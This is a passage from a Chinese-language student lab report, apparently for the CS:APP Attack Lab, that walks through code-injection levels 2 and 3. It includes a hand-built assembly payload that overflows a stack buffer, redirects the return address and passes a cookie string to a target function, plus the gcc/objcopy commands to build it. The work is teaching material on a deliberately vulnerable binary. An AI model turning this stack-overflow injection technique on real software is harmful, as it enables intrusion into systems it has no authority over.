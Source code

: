 ```shell
gcc -c touch2.s
objcopy touch2.o -O binary touch2
```

gcc 汇编后的代码是 ELF 格式的可执行文件，所以需要通过`objcopy`转化为纯二进制文件，即只含数据和代码的文件。

![level2](attack/assets/level2.png)

#### Level 3

和level2大同小异。只不过这回`rdi`的内容需要设置为字符串的地址。字符串的地址可以通过计算得到。需要注意的是字符串放置的位置需要注意，因为之后`hexmatch`里面可能会覆盖部分栈的内容。

`hexmatch`中有如下内容`add rsp, 0FFFFFFFFFFFFFF80h`，说明用到了128byte的栈。多留一点不会造成什么危害，所以我空余了160个bytes的空间。之后在内存中填充字符串`59b997fa`，即`cookie`的值。

```assembly
.intel_syntax noprefix
.quad 0, 0, 0, 0 ,0
.quad 0x5561DCA8

movq rdi, 0x5561DD30
mov qword ptr [rsp], 0x4018FA
ret

.quad 0, 0, 0, 0, 0
.quad 0, 0, 0, 0, 0
.quad 0, 0, 0, 0, 0

.ascii "59b997fa\0"
```

生成输入文件的操作和[level2](#level-2)的内容相同。最后的结果如下，

![level3](attack/assets/level3.png)


[^1]: 报告中由许多命令行和程序的截图。观察命令行可以看到用户名都为 kaleid-liner ，包括 WSL 和 VMWare Ubuntu。同样，我的 Github 用户名也为 kaleid-liner ，访问上面的链接即可知。此一致性可以在一定程度上证明确实是由我完成的。
[^2]: 这里的特殊处理指将不同但表示意思相同的 url 变成一样的，如 `google.com/` 和 `google.com`，即末尾若有 `/`，将其去掉。